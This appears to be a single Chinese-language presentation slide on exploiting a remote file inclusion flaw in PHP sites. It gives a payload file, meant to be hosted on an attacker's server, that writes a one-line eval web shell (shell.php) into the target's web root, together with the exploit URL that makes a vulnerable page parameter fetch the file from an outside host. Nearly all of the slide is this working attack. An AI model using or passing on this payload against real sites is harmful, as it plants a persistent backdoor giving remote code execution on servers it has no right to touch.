

# 文件包含远程包含shell
test.txt文件，可以保存在远程服务器上，内容如下：
<?fputs(fopen("shell.php","w"),"<?php eval($_POST[nmask]);?>")?>
　如果目标网站存在远程包含漏洞，则可以通过访问：http://www.xxx1.com/index.php?page=http://www.xx2.com/test.txt则会在服务器根目录下生产一个shell.php内容为:
<?php eval($_POST[nmask]);?>
9